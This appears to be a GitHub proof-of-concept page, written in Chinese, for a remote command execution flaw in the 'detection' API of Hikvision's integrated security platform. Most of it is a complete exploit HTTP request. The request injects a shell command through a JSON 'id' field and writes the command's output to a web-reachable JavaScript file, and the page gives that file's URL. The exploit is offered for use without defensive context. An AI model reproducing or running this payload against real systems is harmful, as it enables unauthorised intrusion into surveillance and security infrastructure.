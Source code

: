 ## 海康威视综合安防系统detection接口存在RCE漏洞

## poc
```
POST /center/api/installation/detection HTTP/1.1
Host: xx.xx.xx.xx
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 154

{"type":"environment",
"operate":"",
"machines":{"id":"$(find /|grep chunk-common.34c924fe.js|while read f;do sh -c id >$(dirname $f)/123.js;done)"}}
```

写入文件路径
`http://xx.xx.xx.xx/portal/ui/static/js/123.js`

<img width="1302" alt="image-20240307102647932" src="https://github.com/wy876/POC/assets/139549762/476f1181-d7e0-4485-862c-856a64317681">
